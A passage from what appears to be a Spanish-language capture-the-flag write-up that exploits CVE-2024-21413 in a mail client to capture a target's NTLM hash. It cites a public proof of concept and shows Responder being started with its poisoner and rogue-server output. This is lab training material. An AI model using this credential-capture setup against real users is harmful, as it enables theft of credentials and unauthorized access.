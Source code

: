 ## <span style="color: #6ddc6d;">Monikor Link /CVE-2024-21413/</span> - <span style="color: #a4a4a4;">Enviando documento malicioso a Maya para obtener el Hash NTLM</span>

Dado que el servidor remoto de Windows está ejecutando un servidor de correo, es probable que también esté utilizando un cliente de correo para conectarse a él. El cliente de correo predeterminado para Windows es Windows Mail. Con esta información y una búsqueda en Google sobre vulnerabilidades recientes relacionadas con Windows Mail, nos lleva a este [repositorio](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability) de GitHub, que incluye una PoC (ejemplo o prototipo que demuestra que una vulnerabilidad puede ser explotada o que un ataque puede tener éxito) para CVE-2024-21413.

El script se utiliza para enviar un correo electrónico que contiene un enlace malicioso que, al ser abierto, puede desencadenar la vulnerabilidad CVE-2024-21413 en el cliente de correo del destinatario. Voy a usar `Responder`, que se utiliza para capturar cualquier credencial que se envíe como resultado de la interacción del usuario con ese enlace, lo que permite al atacante obtener acceso no autorizado a la información del usuario.


```bash
❯ sudo responder -I tun0
[sudo] password for oso: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]
```